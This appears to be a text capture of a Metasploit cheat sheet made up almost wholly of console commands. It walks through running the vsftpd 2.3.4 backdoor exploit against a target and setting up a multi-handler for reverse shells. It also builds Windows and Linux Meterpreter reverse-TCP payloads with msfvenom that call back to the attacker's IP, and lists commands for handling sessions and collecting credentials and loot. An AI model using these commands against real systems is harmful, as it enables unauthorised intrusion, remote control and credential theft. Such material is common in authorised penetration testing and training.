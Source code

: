Exploit example flow (generic; adjust to your target):
```
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS <TARGET_IP>
check
run
sessions
sessions -i 1
background
```

Payload handler for a reverse shell (pair with msfvenom payload you deliver via another vector):
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT 4444
set ExitOnSession false
run -j
```

Generate a payload (shell):
```
# Windows x64 Meterpreter reverse TCP (EXE)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe

# Linux x64 Meterpreter reverse TCP (ELF)
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f elf -o shell.elf
```

Session management and pivot prep (basics):
```
sessions
sessions -i 1
background
jobs
jobs -K
```

DB artifacts, notes, and loot:
```
creds
loot
notes add -t host -h <TARGET_IP> -n "manual-note" -d "Found potential vuln XYZ"
notes
```

Global defaults and persistence:
```
setg LHOST <YOUR_IP>
setg VERBOSE true
save                 # Persist current datastore to config
spool /tmp/msf.log   # Start logging console output
spool off
```
